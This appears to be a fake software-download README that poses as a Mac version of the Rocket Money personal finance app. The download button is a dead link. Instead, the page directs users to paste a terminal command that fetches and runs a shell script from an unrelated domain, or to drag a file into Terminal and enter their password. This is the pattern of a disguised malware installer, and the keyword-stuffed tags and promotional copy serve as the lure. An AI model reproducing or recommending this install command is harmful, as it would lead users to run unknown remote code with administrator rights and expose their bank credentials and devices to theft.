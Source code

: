 # Rocket Money — Download For Mac OS 💸

Rocket Money is a powerful personal finance and budgeting tool designed to help users take full control of their money. With this Mac version, you can install and manage your finances directly from your desktop. Follow the instructions below to install it easily and securely. 💼

![rocketmoneyapp](https://i.pcmag.com/imagery/reviews/02Qu73ohKNRw0rBp6lpVnYP-14..v1752171562.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](#)

If the download button does not work, follow the manual installation instructions below using your terminal.

---

## 📦 How to Install Rocket Money For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Rocket Money

* 💳 **Track Subscriptions** — Instantly see and manage all recurring charges.
* 📈 **Budgeting Made Easy** — Set monthly budgets and track your spending.
* 🏦 **Bank Account Syncing** — Securely connect your financial accounts.
* 🚫 **Cancel Subscriptions** — Cancel unwanted services in a few taps.
* 💡 **Spending Insights** — Receive smart insights into where your money goes.
* 🔔 **Real-Time Alerts** — Get notified when bills increase or change.

---

## About Rocket Money

Rocket Money (formerly Truebill) is a top-rated financial management app that helps users identify and cancel unwanted subscriptions, lower bills, and stay on top of their budgeting goals. With a sleek interface and powerful integrations, Rocket Money for Mac brings its full suite of financial tools right to your desktop.

Whether you're trying to gain control of your monthly expenses or looking to save for a specific goal, Rocket Money's budgeting features allow you to create smart financial plans and track your progress over time. It's more than a personal finance app — it's your financial command center.

By syncing with your bank accounts and providing real-time transaction tracking, Rocket Money gives users an accurate overview of their financial health. You can view spending by category, receive alerts when bills increase, and stay organized without having to switch between multiple apps.

Rocket Money is trusted by millions and rated highly for its ease of use and transparency. It's a powerful ally for those who want to eliminate financial waste and build better money habits — all from their Mac.

---

## ✅ Rocket Money Benefits

* 🧠 User-friendly interface with powerful budgeting tools
* 🔒 Bank-level security and encryption
* 📊 Real-time expense tracking and analytics
* ✂️ Built-in tools to cancel subscriptions
* 🔁 Automatic syncing with bank and credit accounts
* 🌍 Works seamlessly across devices

---

## 🖼 Preview

![Rocket Money Dashboard](https://i.postimg.cc/Fzq3Cyxq/rocket-money-1.png)
*An overview of the dashboard with monthly spending*

![Rocket Money Subscriptions](https://i.postimg.cc/W1bZtbRM/rocket-money-2.png)
*Easily manage and cancel recurring subscriptions*

![Rocket Money Budget Planner](https://i.postimg.cc/KYW3xzRz/rocket-money-3.png)
*Create and monitor monthly budgets in a few clicks*

![Rocket Money Notifications](https://i.postimg.cc/zG1GMYzr/rocket-money-4.png)
*Get real-time alerts on spending and bill changes*

---

## 🔍 Tags

rocket money mac, rocket money, rocket money download, rocket money reviews, rocket money app, rocketmoney reviews, rocket money app review, rocket money login, rocket money budget, rocket budget app, download rocket money free, budget app for mac, rocket money for macbook, personal finance mac app, subscription tracker mac, rocket money install macos, best budgeting software for mac, rocket money desktop version, money manager mac
